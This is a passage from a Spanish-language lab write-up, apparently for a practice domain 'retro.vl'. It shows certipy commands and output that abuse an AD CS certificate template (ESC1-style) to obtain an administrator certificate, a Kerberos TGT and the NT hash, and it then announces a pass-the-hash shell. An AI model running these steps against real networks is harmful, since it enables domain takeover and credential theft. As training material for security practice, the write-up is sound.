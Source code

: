 - Podemos usar **certipy** para solicitar un certificado.
 
- Vemos que nos dice que existe un mínimo para la **key RSA**.

```bash
➜  content certipy-ad req -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 8
Would you like to save the private key? (y/N)
```

<p align="center">
<img src="https://i.imgur.com/D8qaMXn.png">
</p>

- Vamos a proporcionar la medida exacta para que funcione.

```bash
➜  content certipy-ad req -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -key-size 4096
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

- Ahora vamos a autenticarnos para obtener le **TGT** este es un tipo de credencial que se utiliza en el protocolo **Kerberos** para autenticar a un usuario en un dominio.

```bash
➜  content certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.121.174
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': ********************************:********************************
➜  content
```

- Y bueno ahora que tenemos el **hash** vamos a obtener un **shell** empleando **Pass the Hash** .

## Shell as administrator
